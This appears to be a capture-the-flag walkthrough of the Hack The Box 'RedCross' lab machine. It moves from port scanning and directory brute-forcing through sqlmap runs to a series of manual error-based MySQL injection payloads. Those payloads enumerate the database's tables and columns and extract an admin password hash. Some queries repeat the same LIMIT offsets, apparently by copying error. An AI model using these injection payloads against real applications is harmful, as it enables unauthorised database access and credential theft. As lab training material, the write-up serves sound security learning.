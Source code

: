 # Hack the Box - RedCross
```CSS
Machine IP: 10.10.10.113 - Debian
```
## Reconnaisance
**Disover all open TCP ports**
```CSS
▶ nmap -Pn -sS -p- 10.10.10.113 -T4 --min-rate 1000 -oN nmap.surface
```

**Identify and scan running services on open ports**
```CSS
▶ sudo nmap -sV -sC -p 22,80,443 10.10.10.113 -oN nmap.deep 
```

---

## Application Mapping
![image](https://user-images.githubusercontent.com/83878909/229340988-396c149d-59a9-44df-8bb8-846e1a2e6f3b.png)

---

### Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb --wordlist /usr/share/wordlists/directories.txt --no-tls-validation --threads 25 --output intra-dir.out
```
![image](https://user-images.githubusercontent.com/83878909/229342980-9b448de6-1f32-417a-915b-d419ef3afc08.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/pages --wordlist Common-PHP-Filenames.txt --no-tls-validation --threads 25 --output intra-dir-pages.out 
```
![image](https://user-images.githubusercontent.com/83878909/229349757-4437bdf3-24b6-4b47-aa87-b392ff82f9da.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/documentation --wordlist directory-list-2.3-small.txt --no-tls-validation  --threads 25 --output intra-dir-pages.out --extensions pdf,txt 
```
![image](https://user-images.githubusercontent.com/83878909/229352633-afb50fcf-6b44-47a5-ad7d-327324b03a67.png)

---

## Virtual Host Brute-Force
```CSS
▶ wfuzz -H 'Host: FUZZ.redcross.htb' -u 'https://10.10.10.113' -w subdomains-top1million-5000.txt --hw 28
```
![image](https://user-images.githubusercontent.com/83878909/229351137-705a4132-e00b-45b5-b551-2f9a15acb448.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=login`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229352907-4b619112-09b4-4d94-bb9e-af767ebf9e9a.png)
![image](https://user-images.githubusercontent.com/83878909/229352924-ffbba2d9-f739-43a1-b7fa-98c14ad39f6e.png)

### SQLMap
```CSS
▶ sqlmap -r login-request.txt --force-ssl --dbms mysql --batch
```
**NOT VULNERABLE**

---

## Testing for Default Credentials on Login Page
- Logged in as Guest.
- Working credentials: `guest:guest`.
![image](https://user-images.githubusercontent.com/83878909/229353512-1722be64-2483-4f6e-aa8c-ee2d70a9786a.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=app`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229353680-3ca112d1-6c52-48ae-a39c-107c461459c9.png)

### SQLMap
```CSS
▶ sqlmap -r userid-filter-request.txt -p o --force-ssl --dbms mysql --batch
```
## Manual Testing
  - Inject a `'` after the `o` parameter in the query.
![image](https://user-images.githubusercontent.com/83878909/229354603-aef8edb5-23e7-40b8-8785-f45b4515d517.png)
  - Extract: Version information.
  - Query: `') and extractvalue(0x0a,concat(0x0a,version()))-- -`
![image](https://user-images.githubusercontent.com/83878909/229354803-2b283325-cc0c-4561-bceb-4a890f1a6e1d.png)
 ## Database Name 
  - Extract: Database name.
  - Query: `') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229359923-16a7107b-f98b-4294-8816-c672d7690dd6.png)
 ## Tables
  - Extract: Table names in the database `redcross`.
  - Query (Table 1): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 0,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360263-2a8cfc98-5fb3-4d9b-ab61-71836b0aae34.png)
  - Query (Table 2): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360434-d3ce41fa-586c-430a-b4f7-89549b2704e1.png)  
  - Query (Table 3): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 2,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360478-52232c71-b380-404e-a649-e99f5afa4759.png)
- Tables Found: messages, requests and users.

## Columns
  - Extract: Column names in the table `users`.
  - Query (Column 1): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364564-7f7b5fbe-e17b-4c60-b28e-e9c8b36a9e4a.png)
  - Query (Column 2): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364190-97f1d230-b4a4-45d8-900a-50c7707eb9fd.png)
  - Query (Column 3): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 2,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364271-a10fe1c5-7311-4d04-9c64-96141184e967.png)
  - Query (Column 4): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 3,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364423-652f1974-229c-49b6-a88c-e6d010103f4b.png)
  - Query (Column 5): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 5,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364516-a25c1339-8f3c-4d66-8691-251dab9d1289.png)
- Columns Found: id, username, password, mail and role.

## Usernames and Passwords
  - Extract: Usernames.
  - Query (User 1): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365056-4de5f991-d941-4753-9d09-866688fd02f2.png)
  - Query (User 2): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365145-8c217e2e-6269-46c4-a8c6-3eb3f79cc853.png)
  - Query (User 3): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365296-3ff1f74f-2180-4c29-8111-83d82aeaebf8.png)
  - Query (User 4): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365253-75ce97e6-d60d-4278-9881-9c0b5cc94add.png)

  - Extract: Passwords.
  - Query: `') and extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229367688-1cf32661-e990-4ac2-b893-a29fb7746b17.png)
  - The above query returned the password for user `admin` however the passqord is not complete. The SQL query needs to be modified and then the password will be return in two parts.
  - Query1 : (User:admin - Password) - `') and extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 0,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229367688-1cf32661-e990-4ac2-b893-a29fb7746b17.png)
  - Query2 : (User:admin - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 0,1) FROM 30)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229368053-208b6b3e-871a-47ae-b549-fa88babc2660.png)
  - Combining Both: `$2y$10$z/d5GiwZuFqjY1jRiKIPzuPX` + `PXKt0SthLOyU438ajqRBtrb7ZADpwq.` = `$2y$10$z/d5GiwZuFqjY1jRiKIPzuKt0SthLOyU438ajqRBtrb7ZADpwq.`
